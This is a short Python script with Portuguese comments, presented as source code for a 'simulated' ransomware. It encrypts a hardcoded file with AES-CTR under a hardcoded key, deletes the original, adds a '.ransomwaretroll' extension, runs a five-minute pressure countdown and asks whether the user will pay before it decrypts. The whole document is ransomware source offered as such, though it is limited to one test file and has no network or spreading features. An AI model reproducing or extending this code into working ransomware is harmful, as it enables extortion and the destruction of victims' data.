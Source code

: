 import os
import pyaes
import time

# Função para criptografar o arquivo
def encrypt_file(file_name, key):
    with open(file_name, "rb") as file:
        file_data = file.read()

    aes = pyaes.AESModeOfOperationCTR(key)
    crypto_data = aes.encrypt(file_data)

    new_file_name = file_name + ".ransomwaretroll"
    with open(new_file_name, 'wb') as new_file:
        new_file.write(crypto_data)

    os.remove(file_name)
    print(f"Arquivo {file_name} criptografado com sucesso!")

# Função para descriptografar o arquivo
def decrypt_file(file_name, key):
    with open(file_name, "rb") as file:
        file_data = file.read()

    aes = pyaes.AESModeOfOperationCTR(key)
    decrypt_data = aes.decrypt(file_data)

    os.remove(file_name)

    new_file_name = file_name.replace(".ransomwaretroll", "")
    with open(new_file_name, "wb") as new_file:
        new_file.write(decrypt_data)

    print(f"Arquivo {new_file_name} restaurado com sucesso!")

# Timer para simular a pressão do tempo
def countdown(time_left):
    while time_left > 0:
        mins, secs = divmod(time_left, 60)
        print(f"Tempo restante: {mins:02d}:{secs:02d}", end="\r")
        time.sleep(1)
        time_left -= 1

    print("\nO tempo acabou! Seus arquivos foram comprometidos.")

# Função principal para executar o ransomware simulado
def main():
    file_name = "teste.txt"
    key = b"testeransomwares"

    # Criptografar o arquivo
    encrypt_file(file_name, key)

    # Definir o tempo (em segundos) para o timer
    total_time = 5 * 60  # 5 minutos

    # Iniciar o timer
    countdown(total_time)

    # Perguntar ao usuário se deseja pagar para restaurar o arquivo
    response = input("Deseja pagar para restaurar seus arquivos? (sim/não): ").strip().lower()

    if response == "sim":
        decrypt_file(file_name + ".ransomwaretroll", key)
    else:
        print("Você escolheu não pagar. Seus arquivos permanecerão criptografados.")

if __name__ == "__main__":
    main()
